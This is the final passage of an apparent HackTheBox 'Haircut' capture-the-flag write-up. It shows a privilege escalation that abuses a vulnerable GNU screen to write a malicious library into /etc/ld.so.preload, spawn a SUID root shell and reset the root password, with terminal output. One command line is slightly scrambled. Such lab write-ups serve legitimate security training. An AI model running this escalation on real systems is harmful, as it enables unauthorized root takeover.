 Ignore the warnings. As long as there is no error, we are good.

Let us do some magic now on the remote box.

First, we change our directory to `/etc` and we set the `umask` to **000**. Then we use vulnerable `screen` to link the **libhax.so** to the `/etc/ld.so.preload` that we deleted a moment ago. After that we trigger the binary with `screen -ls`. This should make our **/tmp/rootshell** to be owned by root and set the **SUID bit** for this. Now we just need to run the **rootshell** binary.

```
www-data@haircut:/tmp$ cd /etc
www-data@haircut:/etc$ umask 000
so"-data@haircut:/etc$ screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax. 
www-data@haircut:/etc$ screen -ls
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

www-data@haircut:/etc$ /tmp/rootshell
# 
# 
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# passwd root
Enter new UNIX password: 
Retype new UNIX password: 
passwd: password updated successfully
# su root
root@haircut:/etc# id && hostname
uid=0(root) gid=0(root) groups=0(root)
haircut
root@haircut:/etc# 
```

And that is it, we are **root**.

So that was **Haircut** from **HackTheBox**. 

**Thanks** for reading this far. Hope you liked it :)

I will see you in the next write-up. **PEACE**.

